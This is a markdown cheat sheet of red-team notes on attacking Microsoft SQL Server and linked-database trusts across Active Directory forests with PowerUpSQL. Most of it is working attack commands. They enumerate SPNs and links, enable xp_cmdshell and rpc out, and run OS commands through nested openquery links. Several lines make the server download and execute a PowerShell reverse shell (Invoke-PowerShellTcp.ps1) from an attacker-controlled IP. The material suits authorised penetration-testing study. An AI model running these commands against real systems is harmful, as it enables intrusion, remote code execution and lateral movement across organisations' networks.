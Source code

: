 # Forest Trusts [ MSSQL Abuse ; Part 1 ]

+ We can use tools to speed the process up
1. https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.psd1

+ For importing use the following command
```powershell
Import-Module .\PowerUpSQL.psd1
```

---

## Methodology/Steps
> 1. Check the SPN's
> 2. Check which SPN's you have access to
> 3. Check the Privileges you have of the above filtered SPN's
> 4. Keep note of the **Instance-Name**, **ServicePrincipalName** and the **DomainAccount-Name**
> 5. If you find any service with *higher privileges* continue below to abuse it

---

## PowerUpSQL [ Basic Enumeration ]
### 1. Enumerate SPN
```powershell
Get-SQLInstanceDomain
```

### 2. Check Access
```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

### 3. Check Privileges / Gather Infromation
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

---

# MSSQL Database Links [ MSSQL Abuse ; Part 2 ]
-   A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
-   In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.
-   Database links work even across forest trusts.

## Execute commands on target server
-   On the target server, either xp_cmdshell should be already enabled; or
-   If **rpcout** is enabled (disabled by default), xp_cmdshell can be enabled using: 
  ```mssql
  EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
  ```
-   If **rpcout** is disabled but we are **sa**, it can be enabled with 
  ```mssql
  EXEC sp_serveroption 'LinkedServer', 'rpc out', 'true';
  ```

---

## Methodology/Steps
> 1. Check the SQL Server link
> 2. Keep note if you have link to any other database in **DatabaseLinkName**
> 3. If SysAdmin:0 means that we will not be allowed to enable **xp_cmdshell**
> 4. Keep on enumerating and check all the linked databases you have access to
> 5. Now we can try to execute commands through out all the linked databases found

---

## PowerUpSQL [ Abusing the privileges ]
### 1. Enumerate SQL Server links
```powershell
Get-SQLServerLink -Instance <instanceName> -Verbose
select * from master..sysservers
```

### 2. Enumerate DB links
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Verbose
select * from openquery("<instanceName>",'select * from openquery("<linkedInstance>",''select * from master..sysservers'')')
```

### 3. Execute commands on target server
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query "exec master..xp_cmdshell 'whoami'" | ft
```

### Download file on target server
```powershell
Get-SQLServerLinkCrawl -Instance <instanceName> -Query 'exec master..xp_cmdshell "powershell -c iex (new-object net.webclient).downloadstring(''http://IP:8080/Invoke-HelloWorld.ps1'',''C:\Windows\Temp\Invoke-HelloWorld.ps1'')"'

Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.21/Invoke-PowerShellTcp.ps1'')"'
```

---

# Extra Commands

## Basic SQL Server queries for DB enumeration
Also works with **Get-SQLServerLinkCrawl**
```powershell
#View all db in an instance
Get-SQLQuery -Instance <instanceName> -Query "SELECT name FROM sys.databases"

#View all tables
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.TABLES" 

#View all cols in all tables in a db
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.columns"

#View data in table
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName"

# manually enumerate linked servers
select * from master..sysservers

# Openquery function can be used to run queries on a linked database
select * from openquery("192.168.23.25",'select * from master..sysservers')

# Openquery queries can be chained to access links within links (nested links)
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')

# From the initial SQL server, OS commands can be executed using nested link queries
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/I nvoke-PowerShellTcp.ps1'''')"'')')

# How to enable rpcout in a linked DB
# first get a rev shell on the parent DB
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT ""db-sqlsrv"""

# Query command to a linked DB
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName" -QueryTarget db-sqlsrv
```
